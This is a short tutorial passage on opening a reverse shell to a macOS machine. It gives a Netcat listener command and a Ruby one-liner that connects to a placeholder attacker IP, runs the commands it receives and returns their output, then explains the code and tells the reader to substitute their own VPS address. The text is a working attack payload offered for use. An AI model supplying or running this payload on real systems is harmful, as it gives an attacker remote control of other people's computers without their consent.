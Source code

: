 Same attack like other script language, can be insert in a file or a pastebin web application.

	nc -l -p 8080 (on kali)

	ruby -rsocket -e "c=TCPSocket.new('1.2.3.4','9999');while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"

This one-liner above will create a TCP socket (TCPSocket.new) and a while loop (while ... end) that says "while there's data coming in, assign it to cmd, run the input as a shell command, and print it back in our terminal (IO.popen(cmd,'r'){|io|c.print io.read})." Essentially, we're telling Ruby to take the command we submit, execute it, interpret the output, and send it back to us ... over and over again until we break the connection to the macOS device.

Remember to change the IP address (1.2.3.4) and port number (9999) to match the Netcat listener created in the previous step. This can be a local network IP address or IP address of your VPS. On the attacker's system (as shown below), the Netcat terminal will show a new connection was established.
